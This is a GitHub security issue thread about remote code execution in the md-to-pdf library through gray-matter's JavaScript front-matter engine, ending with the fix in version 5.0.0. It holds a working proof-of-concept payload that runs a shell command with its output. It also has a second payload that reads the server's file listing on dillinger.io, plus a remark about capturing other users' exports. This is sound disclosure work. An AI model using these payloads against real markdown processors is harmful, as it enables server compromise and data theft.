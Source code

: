 
##
#
https://github.com/simonhaenisch/md-to-pdf/issues/99
#
https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880
#
##


Security: gray-matter exposes front matter JS-engine that leads to arbitrary code execution #99
Closed
magicOz opened this issue on Sep 22, 2021 · 6 comments
Comments
@magicOz
magicOz commented on Sep 22, 2021
The library gray-matter (used by md-to-pdf to parse front matter) exposes a JS-engine by default, which essentially runs eval on the given Markdown.

https://github.com/simonhaenisch/md-to-pdf/blob/master/src/lib/md-to-pdf.ts#L26

Given that md-to-pdf is only a Markdown to PDF-library and looking at how other projects use it - I think it is an undesirable feature to be able to execute any arbitrary Javascript by anyone in control of the Markdown content.

A possible fix would be to override gray-matter's JS-engine:
```
const { content: md, data: frontMatterConfig } = grayMatter(mdFileContent, { engines : { js : () => {} } } );
PoC:

$ cat /tmp/RCE.txt
cat: /tmp/RCE.txt: No such file or directory
$ node poc.js 
$ cat /tmp/RCE.txt
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
poc.js:

const { mdToPdf } = require('md-to-pdf');

var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';

(async () => {
	await mdToPdf({ content: payload }, { dest: './output.pdf' });
})();

```
@magicOz magicOz added the bug label on Sep 22, 2021
@simonhaenisch
Owner
simonhaenisch commented on Sep 22, 2021 • 
Thanks for the info. I wasn't aware of this feature in gray-matter.

I think it is an undesirable feature to be able to execute any arbitrary Javascript by anyone in control of the Markdown content.

I think you shouldn't use a tool like this on markdown content that you don't control, especially not without any security concerns (i. e. never trust user input), but yeah I agree that it might prevent some accidental security problems if the JS engine was disabled.

@simonhaenisch
Owner
simonhaenisch commented on Sep 22, 2021 • 
I just checked the docs and it's also possible to set { language: 'yaml' } which should already be sufficient to disable JS code execution. Might make sense to expose this options object as a config option so that people can change it to js explicitly in case they want to use JS in their front matter.

@magicOz
Author
magicOz commented on Sep 22, 2021 • 
The documentation seems to be a bit misleading and { language : '...' } actually just means the default engine if the language identifier is omitted from the front matter, all engines are still accessible by using ---<language identifier>.

Agree, an opt-in config option for which engines to use makes sense and sounds like the right way to solve this.

simonhaenisch reacted with thumbs up emoji
@simonhaenisch
Owner
simonhaenisch commented on Sep 23, 2021 • 
BTW I saw in your Github activity that you also raised an issue with dillinger.io which is using this package, and I'm actually able to use this exploit there, e. g. I would add a front matter like
```
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```
and then use export > PDF. I'm not sure about the damage that can be done here but one idea would be to try and send myself all file exports that are happening in the hopes that someone uses dillinger.io for secret/internal data.

FYI @joemccann, I'll see that I get a new major version out that disables this feature by default, and make a PR to your repo to update the package.

magicOz, Hat70ri, saamnguyen, owalid, and protoEvangelion reacted with thumbs up emoji
@magicOz
Author
magicOz commented on Sep 23, 2021
Yes, you're right - I was reviewing dillinger and that's how I found this library. :)
Currently, instances of dillinger are vulnerable to RCE due to this.

@simonhaenisch simonhaenisch closed this as completed in a716259 on Sep 24, 2021
@simonhaenisch
Owner
simonhaenisch commented on Sep 24, 2021
Released version 5.0.0 with a fix for this, i. e. the JS engine throws an error about being disabled by default, and you can overwrite the gray-matter options with null or undefined to restore the original behavior.

This was referenced on Sep 24, 2021
update md-to-pdf to prevent RCE via javascript front-matter joemccann/dillinger#821
 Merged
Security consideration: disable JS engine by default to prevent RCEs in dependents jonschlinkert/gray-matter#131
